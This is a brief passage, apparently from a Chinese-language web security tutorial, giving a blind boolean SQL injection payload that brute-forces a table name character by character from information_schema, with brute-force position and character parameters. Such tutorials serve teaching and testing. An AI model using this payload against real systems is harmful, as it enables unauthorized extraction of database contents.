 ![](../img/acd9d01b861c77baaa0ee4fdb4245c36.png)

之后，再爆破每个字符。

```
1 and (select substr(table_name,$1,1) from information_schema.tables where table_schema=database() limit 0,1)=$2
```

`$1`配置为 1 ~ 5的整数，`$2`的配置为上面的列表。
